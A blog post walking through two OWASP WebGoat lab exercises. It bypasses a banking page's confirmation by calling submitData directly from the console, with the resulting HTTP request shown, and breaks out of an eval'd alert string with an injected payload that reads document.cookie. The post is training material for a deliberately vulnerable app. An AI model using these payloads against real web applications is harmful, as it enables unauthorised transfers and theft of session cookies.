 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 Continued (Continued)"
date:   2017-01-24 17:00:00 -0500
categories: webgoat
---
```

# AJAX Security Part 8: Silent Transaction Attacks
Instructions:

* This is a sample internet banking application - money transfer page.

* It shows below your balance, the account you are transferring to and amount you will transfer.

* The application uses AJAX to submit the transaction after doing some basic client side validations.

* Your goal is to try to bypass the user's authorization and silently execute the transaction.

Aha, client side validations. Sounds like we can mess with it, or at the very least read it and look for some exploitability. Nice! Let's take a look at the source.

In the HTML, we see the following code in the confirmation form:

```
<input onclick="processData();" id="confirm" value="Confirm" name="confirm" type="BUTTON">
```

Alright so there is a third-party function ```processData()``` being called when we want to send the request. Lets take a look at that function.

```
function processData(){
	var accountNo = document.getElementById('newAccount').value;
	var amount = document.getElementById('amount').value;
	if ( accountNo == ''){
		alert('Please enter a valid account number to transfer to.')
		return;
	}
	else if ( amount == ''){
		alert('Please enter a valid amount to transfer.')
		return;
	}
	 document.getElementById('confirm').value  = 'Transferring'
	submitData(accountNo, amount);
	document.getElementById('confirm').value  = 'Confirm'
	balanceValue = parseFloat(balanceValue) - parseFloat(amount);
	balanceValue = balanceValue.toFixed(2);
	document.getElementById('balanceID').innerHTML = balanceValue + '$';
}
```

Let's break it down. ```processData``` works by pulling the information for the account the money is being transferred to, and the amount of money to be transferred from the elements filled out on the page (as long as they are filled with some data). It then does a check to make sure you cannot transfer more money than you have in the account. If the transaction passes those checks, it calls another function ```submitData``` and passes it the destination account and the amount to transfer. Then ```processData``` continues on, adjusting the sender account's balance for the amount transferred.

So there are a lot of checks in ```processData``` to prevent any transfers that the user does not want to happen. Not to mention the initial confirmation button in the HTML that fires the function off. Its main job is to interact with the sender and update data about their balance and transactions. Kind of the opposite of "silent". Let's look at ```submitData```, the method that actually performs the transactions.

```
function submitData(accountNo, balance) {
	var url = 'attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
	if (typeof XMLHttpRequest != 'undefined') {
		req = new XMLHttpRequest();
	} 
	else if (window.ActiveXObject) {
		req = new ActiveXObject('Microsoft.XMLHTTP');
	}
	req.open('GET', url, true);
	req.onreadystatechange = callback;
	req.send(null);
}
```

Hmm...not a confirmation, prompt, or check in sight! Well, let's see if we can call ```submitData``` directly from the console and bypass any user initiation or confirmation:

```
$submitData('hackeracct', 1000000)
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/silent-transaction.jpg">

Free money!!!

The real security implication here is that the ```submitData``` function actually sends a URL-formatted request to the server to perform this transaction:

```
GET /WebGoat/attack?Screen=68&menu=400&from=ajax&newAccount=hackeracct&amount=1000000&confirm=Confirm HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=68&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

So a legitimate attack might look more like a phishing campaign to members of WebGoat bank that asks them to update some account information. And then...

# AJAX Security Part 9: Dangerous Use of Eval
Instructions:

* For this exercise, your mission is to come up with some input containing a script. You have to try to get this page to reflect that input back to your browser, which will execute the script. In order to pass this lesson, you must 'alert()' document.cookie.

Alright, so we're started off with a shopping cart and some credit card info

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-1.jpg">

When we go to purchase, the server responds with an alert that tells us whether the request went through or not. Enter our exploitable vector.

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-2.jpg">

Initially, without really thinking I tried a bunch of naive XSS inserts that didn't pop. Then I realized that I was trying to pop an alert inside of an alert, which didn't make much sense. So let's think about this more logically. If we enter an incorrect PIN, the document generates an alert that looks something like this:

```
alert('Whoops: You entered an incorrect access code of "' + document.form.field1 + '"')
```

Maybe we can break out of the alert and append another? Similar to the mechanism for HTTP Response Splitting. Let's give it a shot with:

```
fail"');alert(document.cookie
```

This almost worked, but we received:

```
alert('Whoops: You entered an incorrect access code of "fail");alert(document.cookie");
```

Aha, right we forgot about the closed string. Let's try to tack on another alert on the end?

```
fail"');alert(document.cookie);alert('"filler
```

Now everything is properly escaped, and we get three alerts, of which the second is:

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-3.jpg">

Success! Definitely not too subtle with three alerts, but we pop the cookie!